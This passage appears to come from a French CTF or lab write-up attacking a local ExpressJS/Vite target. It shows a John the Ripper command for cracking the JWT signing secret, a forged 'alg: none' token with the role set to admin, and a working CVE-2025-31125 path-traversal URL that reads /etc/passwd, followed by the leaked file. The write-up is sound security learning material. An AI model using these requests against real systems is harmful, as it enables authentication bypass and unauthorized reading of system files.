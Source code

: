 Si on soumet le base64 sur un décodeur JWT en ligne comme [JWT.io](https://jwt.io/) on obtient ceci :

```json
{
  "uid": -1,
  "role": "guest",
  "iat": 1749562607,
  "exp": 1749564407
}
```

Une fois de plus, aucune surprise par rapport au code source.

Je ne suis pas expert en ExpressJS, mais avec la présence de `jwt.verify`, l'accès à `/api/execute` semble être correctement sécurisé.

Par conséquent, j'ai d'abord tenté de casser le mot de passe qui sert à signer les tokens. Il suffit de donner ce token ainsi que le format attendu à JtR :

```bash
john --format=HMAC-SHA256 --wordlist=wordlists/rockyou.txt jwt_hash.txt
```

Sans succès... Une autre attaque possible sur les tokens JWT consiste à en créer un avec l'algo `none` pour la signature, ce qui peut avoir pour effet de bypasser la vérification.

Avec JWT.io, on peut changer le paramètre et obtenir un nouveau token.

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

On aura bien sûr mis `admin` à la place de `guest` dans le payload.

### Vite !

N'ayant obtenu aucun résultat, j'ai fouillé du côté des vulnérabilités connues en lançant Nuclei sur le serveur. Cette fois la pèche était bonne :

```
[CVE-2025-31125] [http] [medium] http://192.168.56.106:3000/@fs/etc/passwd?import&?inline=1.wasm?init
```

Si on ouvre l'URL donnée, on obtient du base64 qui se décode vers le fichier attendu `passwd`, on a donc un directory traversal :

```
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
klogd:x:100:101:klogd:/dev/null:/sbin/nologin
chrony:x:101:102:chrony:/var/log/chrony:/sbin/nologin
```